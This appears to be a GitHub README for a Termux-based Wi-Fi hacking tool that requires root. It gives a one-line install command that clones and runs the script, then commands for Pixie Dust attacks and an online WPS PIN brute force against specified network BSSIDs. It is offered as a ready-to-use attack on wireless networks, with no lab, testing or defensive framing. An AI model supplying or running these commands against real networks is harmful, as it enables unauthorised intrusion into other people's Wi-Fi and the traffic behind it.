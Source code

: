 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
apt update && apt upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && git clone https://github.com/Gtajisan/FxWiFi && cd FxWiFi && chmod +x farhanX.py && sudo python farhanX.py --help
```
#### Running
 ```
 sudo python farhanX.py -i wlan0 -K
 ```



#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python farhanX.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python farhanX.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python farhanX.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
